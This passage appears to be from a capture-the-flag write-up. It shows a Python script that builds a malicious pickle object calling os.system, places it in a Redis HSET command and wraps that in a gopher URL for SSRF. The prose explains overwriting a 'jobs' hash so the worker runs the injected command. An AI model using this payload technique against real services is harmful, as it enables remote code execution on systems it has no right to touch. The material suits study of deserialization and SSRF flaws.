 ```python
        return (os.system, (cmd,))

def pickle_payload(key, field, command):
    res = ""

    payload = pickle.dumps(PickleExploit(command))
    res += "\r\n"
    res += generate_resp("hset {} {} {}".format(key, field, base64.b64encode(payload).decode()))

    res = res.replace("\n", "\r\n")

    print(generate_gopher(res))

if sys.argv[1] == "pickle":
    key = input("Key name > ")
    field = input("Field name > ")
    command = input("Command > ")
    pickle_payload(key, field, command)
```

This pickle serialized thing works fine on Unix platform. It should also works fine on Windows platform usually, however if you experience any errors on your Windows machine, try to use WSL (Window Subsystem Linux), install Linux on a Virtual Machine or buy a MacBook. 💸💸💸

With that script let's try to finalize our work. We will try to change `hvalue` of `jobs` from `hfield` of 100 (which is the first key:value pair of `jobs`). Why `jobs` ? Because it is the hash key that stores the jobs which contain the serialized object. Why change it ? So we can inject a evil-crafted serialized object of our own so when it is loaded, the command we want to run will be executed.

Overall the technique to solve this challenge is not too flashy, it still requires a lot of knowledge around it. Very nice chall. Hope we all learn something from it.

<img src="traptrack6.png" alt="creds">

<img src="traptrack7.png" alt="creds">
